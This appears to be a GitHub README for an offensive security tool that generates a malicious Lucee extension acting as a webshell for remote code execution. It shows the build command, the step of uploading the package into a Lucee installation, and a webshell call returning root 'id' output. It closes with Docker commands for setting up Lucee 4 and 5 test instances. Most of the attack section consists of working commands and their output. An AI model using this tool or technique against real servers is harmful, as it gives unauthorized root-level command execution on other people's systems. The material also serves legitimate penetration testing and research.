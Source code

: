 
## 

### Written by Juan Pablo Gomez (https://github.com/JPG0mez) and Will Vandevanter (https://github.com/BuffaloWill)

### Building a Shell

The blog post linked above walks through how to manually create the Lucee extension. 

You can also use the extension-generator.py script in this repository to generate an extension for remote code execution:

```bash
python3 extension-generator.py build

Auth_code already set: lErs2CC2BdpUtHYW0miiSNncE
Generating LEX package...
webshell/package.lex created.
```

At this point upload the Extension into the Lucee installation. 

Then call the webshell with:

```bash
python3 extension-generator.py --url http://localhost:8888 --auth-code lErs2CC2BdpUtHYW0miiSNncE id

uid=0(root) gid=0(root) groups=0(root)
```

### Testing Lucee

The easiest way to test Lucee functionality is with Docker. To spin up a Lucee docker instance that matches your target,

#### Docker - Lucee 5:

Note, lucee 5 does not ship with a password. You will need to start the server with:

```
docker run --name lucee5 -p 8888:8888 --platform linux/amd64 lucee/lucee:5.3.9.141-nginx
```

After the application finishes loading, there should be a Server page at [Server Login](http://127.0.0.1:8888/lucee/admin/server.cfm) that will mention a password needing to be set. 

This can be done from the cli with:

```
docker exec lucee5 sh -c "echo 'mypassword' > /opt/lucee/server/lucee-server/context/password.txt"
```

After this click "Import File" and you should be able to login.

This blopost also has alternate information on setting the password: 

https://markdrew.io/password-for-lucee-docker

### Docker - Lucee 4 (2018):

Start the server:

```
docker run --name lucee4 -dp 8888:8080 --platform linux/amd64 lucee/lucee4:4.5.5.015
```

Browse to localhost:8888/lucee/admin/server.cfm and set the password.